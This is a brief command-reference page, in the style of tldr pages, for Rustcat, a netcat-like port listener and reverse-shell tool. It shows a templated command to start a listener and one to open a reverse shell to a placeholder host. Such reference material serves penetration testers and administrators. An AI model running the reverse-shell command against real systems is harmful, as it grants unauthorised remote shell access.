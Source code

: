# rc

> Rustcat is a modern port listener & Reverse Shell that is very easy to use. Similair to `nc` with an emphasis on ease of use.
> More information: <https://github.com/robiot/rustcat/wiki/Basic-Usage>.

- Start a listener:

`rc -lp {{port}}`

- Start a reverse shell:

`rcat {{host}} {{port}} -r {{shell}}`
